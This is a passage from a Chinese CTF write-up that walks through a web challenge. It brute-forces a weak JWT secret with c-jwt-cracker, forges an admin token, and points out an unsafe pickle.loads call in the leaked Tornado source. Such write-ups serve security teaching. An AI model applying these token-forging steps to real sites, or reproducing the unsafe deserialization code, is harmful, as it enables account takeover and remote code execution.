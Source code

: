 附上爆破工具GitHub地址：https://github.com/brendan-rius/c-jwt-cracker

```
root@kali:~/tools/JWTcrake/c-jwt-cracker-master# ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndoMXNwZXIifQ.Z3wlMUbdDHNs4x4PiVx43YD-CGibsHUC5f3ApnYId58
Secret is "1Kun"
root@kali:~/tools/JWTcrake/c-jwt-cracker-master#
```

在https://jwt.io/这个网站可以进行伪造，把身份改成admin。

我们就可以愉快的进行伪造了，打开F12->application->cookie,将JWT值改成：

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

刷新之后我们就是admin啦~

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165817.png)

ctrl+U查看源码，提示了`/static/asd1f654e683wq/www.zip`网站源码，

下载下来，发现是python的tornado框架编写的后端

在/sshop/views/Admin.py里面发现了python反序列化漏洞：

```
#by wh1sper
#Admin.py
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

第21行pickle.loads函数存在[python反序列化漏洞](https://www.dazhuanlan.com/2020/02/26/5e55c53a3403f/)
